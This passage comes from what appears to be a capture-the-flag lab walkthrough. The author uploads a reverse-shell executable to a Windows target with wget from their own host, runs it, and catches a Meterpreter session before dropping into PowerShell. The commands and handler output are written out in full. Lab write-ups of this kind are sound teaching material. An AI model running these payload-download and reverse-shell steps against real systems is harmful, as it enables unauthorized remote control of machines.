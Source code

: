 There are actually two, but I can’t write to `C:\Windows\System32` as a non-privileged user.

#### Upload and Execution

I’ll upload the reverse shell again, this time into `C:\Utils`:

```

PS C:\Utils> wget 10.10.14.6/rev.exe -outfile r.exe

```

Once it’s there, I’ll run it:

```

PS C:\Utils> .\r.exe

```

It hangs there without returning, but at `msfconsole`:

```

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.6:4444 
[*] Sending stage (200774 bytes) to 10.10.11.145
[*] Meterpreter session 1 opened (10.10.14.6:4444 -> 10.10.11.145:49857) at 2022-06-07 17:39:49 +0000

meterpreter >

```

#### PowerShell

Meterpreter has a PowerShell module that typically can load the .NET Common Language Runtime (CLR) and interact with the Windows API. It’s invoked with `load powershell`. For some reason, it fails here:

```

meterpreter > load powershell
Loading extension powershell...
[-] Failed to load extension: No response was received to the core_loadlib request.

```

Instead, to drop to a PowerShell shell, I’ll run `shell` (which spawns a `cmd.exe` process), and then `powershell` from there:

```

meterpreter > shell
Process 4836 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19044.1466]
(c) Microsoft Corporation. All rights reserved.

C:\Utils>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Utils>

```
